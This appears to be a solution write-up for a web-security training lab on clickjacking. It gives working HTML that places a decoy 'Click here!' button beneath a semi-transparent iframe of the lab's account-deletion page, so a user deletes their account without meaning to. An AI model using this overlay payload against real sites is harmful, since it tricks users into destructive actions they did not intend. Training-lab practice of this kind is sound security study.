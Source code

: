 # Lab: Basic clickjacking with CSRF token protection
## Description
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.


## Solution

```html
<head>
  <style>
    #target_website {
      position:relative;
      width:528px;
      height:600px;
      opacity:0.60001;
	  margin-bottom: 200px;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
	  top:400px;
	  left:45px;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>

<body>
	<div id="decoy_website">
		<br /><br /><br />
		<button style="width: 140px; height:25px;">Click here!</button>
	</div>
	<iframe id="target_website" src="https://acaf1ff81e3577dcc08e64ae002f00d3.web-security-academy.net/my-account/delete"></iframe>
</body>
```